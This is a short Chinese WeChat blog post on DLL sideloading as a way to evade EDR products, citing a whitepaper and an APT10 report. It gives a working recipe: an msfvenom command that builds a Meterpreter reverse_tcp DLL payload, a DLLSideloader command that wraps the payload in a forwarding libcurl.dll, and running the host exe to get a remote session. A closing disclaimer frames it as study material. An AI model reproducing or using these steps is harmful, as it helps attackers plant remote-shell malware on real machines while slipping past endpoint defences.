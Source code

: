 ##  Sideloading DLL攻击

鸿鹄实验室a  [ 鸿鹄实验室 ](javascript:void\(0\);)

**鸿鹄实验室** ![]()

微信号 gh_a2210090ba3f

功能介绍 鸿鹄实验室，欢迎关注

____

__

收录于话题

今天看到了国外的一个白皮书，地址如下：

  

https://res.mdpi.com/d_attachment/jcp/jcp-01-00021/article_deploy/jcp-01-00021.pdf

  

内容主要是各类技术在遇到EDR时能不能成功的绕过。

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823075055.png)

  

最后以一份表格总结了各类功能以及绕过效果：

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823075109.png)

  

我们可以看到，dll几乎绕过了所有的EDR，而这里的DLL指的便是Sideloading DLL。

  

Sideloading DLL最早应该是在一份APT报告中被提出来的，即DLL侧加载。

文档地址：

  

https://www.recordedfuture.com/apt10-cyberespionage-
campaign/?__cf_chl_jschl_tk__=pmd_VKrHUzdleNocPJnRemvxCVGmjY8gkMwlsZM361GthcI-1629625791-0-gqNtZGzNAjujcnBszQil

  

![]()

  

原理如下：

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823075110.png)

即中间经过转发来加载恶意dll。

  

利用方法：

  

首先找到一个存在dll加载(或劫持)的程序，然后使用msf生成dll

  

  * 

    
    
    msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f dll -a x86 > payload.dll

  

然后使用DLLSideloader来生成我们的转发dll，工具地址：

  

https://github.com/SkiddieTech/DLLSideloader

  

然后生成所需的文件即可

  

  * 

    
    
    Invoke-DLLSideLoad libcurl.dll payload.dll

  

然后执行exe文件，即可获取session。

  

  
  
  
  
  
     ▼更多精彩推荐，请关注我们▼

  

 **请严格遵守网络安全法相关条例！此分享主要用于学习，切勿走上违法犯罪的不归路，一切后果自付！**

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823075111.png)

  

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

Sideloading DLL攻击

最多200字，当前共字

__

发送中

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

